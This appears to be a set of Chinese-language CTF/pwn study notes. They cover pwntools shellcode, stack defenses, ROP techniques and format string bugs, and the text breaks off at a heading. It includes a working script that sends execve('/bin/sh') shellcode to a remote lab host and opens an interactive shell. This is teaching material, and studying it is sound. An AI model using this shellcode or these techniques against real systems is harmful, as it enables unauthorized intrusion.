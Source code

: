 ### Shellcode
* `checksec`检测程序防御方式
* pwntools编写shellcode攻击脚本
* `cyclic 10`生成大小为10字符串
* [shellcode exp](http://shell-storm.org/shellcode/)
=== "Python"

    ``` python linenums="1"
    from pwn import *

    context.update(arch='i386', os='linux')
    # context.log_level = 'debug'
    r = remote('10.214.160.13', 11003)

    shellcode = asm('''
            mov edx, 0
            mov ecx, 0
            push 0x68732f
            push 0x6e69622f
            mov ebx, esp
            mov eax, 0xb
            int 0x80
    ''')
    r.send(shellcode)
    r.interactive()
    ```

### Defense
#### Canary
* 堆栈金丝雀，在函数调用时写入cookie，在返回时检查

#### NX
* 栈不可执行

#### ASLR
* 地址空间随机化

### ROP
#### BufferOverflow
* 利用缓冲区溢出非法覆盖返回地址并返回到写入的shellcode
* 面向返回编程
#### ret2text
* 当NX栈不可执行时
* 返回到可执行代码段
#### ret2shellcode
* 返回到一段恶意注入的shellcode
#### ret2syscall
* 返回到系统调用
* `ROPgedget`
#### ret2libc
* linux动态链接 可执行文件->PLT表->GOT表->libc
  * PLT程序链接表
  * GOT全局偏移表
* 建表是很麻烦的，延迟绑定 plt->got->plt->公共plt->_dl_runtime_resolve
  * 第一次调用时写入，然后再次调用
  * 后续调用直接用
* libcsearcher
#### ret2csu
* x64的传参前六个参数在寄存器上

### SROP

<!-- ???+ bug "Format String Bug" -->
### Format String Bug
* 全称格式化字符串漏洞
#### 内存泄露
* 以`printf()`为例
  * `%d` - 十进制 - 输出十进制整数
  * `%s` - 字符串 - 从内存中读取字符串
  * `%x` - 十六进制 - 输出十六进制数
  * `%c` - 字符 - 输出字符
  * `%p` - 指针 - 指针地址
  * `%n` - 到目前为止所写的字符数
* `printf(s);  // s = "%x%x%x"`会泄露栈上的数据，相对于格式化字符串偏移的数据

#### 内存修改